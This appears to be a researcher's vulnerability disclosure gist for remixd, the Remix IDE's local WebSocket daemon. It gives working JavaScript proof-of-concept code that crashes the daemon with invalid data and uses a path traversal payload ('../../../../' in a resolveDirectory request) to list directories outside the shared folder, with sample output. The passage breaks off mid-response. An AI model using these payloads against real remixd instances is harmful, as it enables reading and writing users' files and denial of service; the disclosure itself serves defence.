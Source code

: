 Source:
https://gist.github.com/tintinweb/b7f513e7923ec83e7ddbfbd1c2cd59e7

## remixd - WebSocket communication

### Post Auth Denial Of Service (low)

requirement: correct origin (therefore severity: low)

```js
let handshake = {"id":0,"action":"request","key":"handshake","payload":["remixd"],"name":"remixd"}

function connect(url) {
   var exampleSocket = new WebSocket(url, "echo-protocol");
   exampleSocket.addEventListener("message", console.log)
   return exampleSocket;
}
```

force `remixd` to close without emitting any error by sending invalid data:

```js 
let s = connect("ws://localhost:65520")
s.send({})
```

![image](https://user-images.githubusercontent.com/2865694/112725984-48035900-8f1b-11eb-9556-c111dce25be1.png)


### Websocket and UI relative path traversal (read/write-what-where) (critical)

* list any folder (outside basedir)
* write to any file/folder on disk (if not in readonly mode)

https://github.com/ethereum/remix-project/blob/425f6101bbcf3ebfc3ee090c995858a3f984a123/libs/remixd/src/services/remixdClient.ts#L34-L43

```js
let s = connect("ws://localhost:65520")
s.send(JSON.stringify(handshake))
```

list directory contents `/tmp` which is way outside the basedir `sharedFolder`

```js
s.send(JSON.stringify({"id":3,"action":"request","key":"resolveDirectory","payload":[{"path":"../../../../../../../../tmp"}],"requestInfo":{"from":"manager","path":"remixd"},"name":"remixd"}))
```

returns

```json
{
  "action": "response",
  "name": "remixd",
  "key": "resolveDirectory",
  "id": 3,
  "payload": {
    "../../../../../../tmp/.vbox-tintin-ipc": {
      "isDirectory": true
    },
    "../../../../../../tmp/com.apple.launchd.xxx": {
      "isDirectory": true
    },
    "../../../../../../tmp/com.brave.xxx.xxx.pid": {
      "isDirectory": false
    },
    "../../../../../../tmp/xxx-debug.log": {
```